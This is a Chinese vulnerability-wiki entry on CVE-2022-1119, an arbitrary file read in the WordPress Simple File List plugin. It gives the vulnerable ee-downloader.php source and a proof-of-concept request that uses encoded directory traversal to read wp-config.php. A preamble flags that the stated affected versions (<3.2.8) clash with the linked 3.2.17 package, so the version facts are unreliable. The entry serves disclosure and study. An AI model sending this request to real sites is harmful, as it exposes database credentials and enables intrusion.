


## 核对与使用边界

- 明确冲突：本文范围 &lt;3.2.8 却提供 3.2.17 安装包，不能将该包当作范围内已证样本，真实受影响和修复版本需插件发布/补丁记录。
- 机制边界：FILTER_SANITIZE_STRING 不是路径规范化和根目录限制，不能消除 `../`；读取仍受目录深度、文件存在和进程读权限约束。保留完整源码和原请求，不据版本矛盾补造结论。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：metadata/body&lt;3.2.8 versus provided3.2.17 package; unauth direct ee-downloader.php and readable file

- **事实待核（1）**：受影响&lt;3.2.8却提供3.2.17作为漏洞插件，明确版本内部矛盾需优先核公告。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：完整源码无路径边界检查支持读取原语，但不能替代版本映射验证。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：FILTER_SANITIZE_STRING不防穿越的机制应说明；固定路径深度依部署。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（4）**：无官方修复commit/安全版本，截图未视觉核验。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

## 漏洞描述

WordPress Simple File List插件 ee-downloader.php文件存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的任意文件

## 漏洞影响

```
WordPress Simple File List < 3.2.8
```

## 插件名

Simple File List

https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip

## 漏洞复现

存在漏洞的文件为 `wp-content/plugins/simple-file-list/includes/ee-downloader.php`




```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

直接传参获取文件信息, 验证POC

```
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
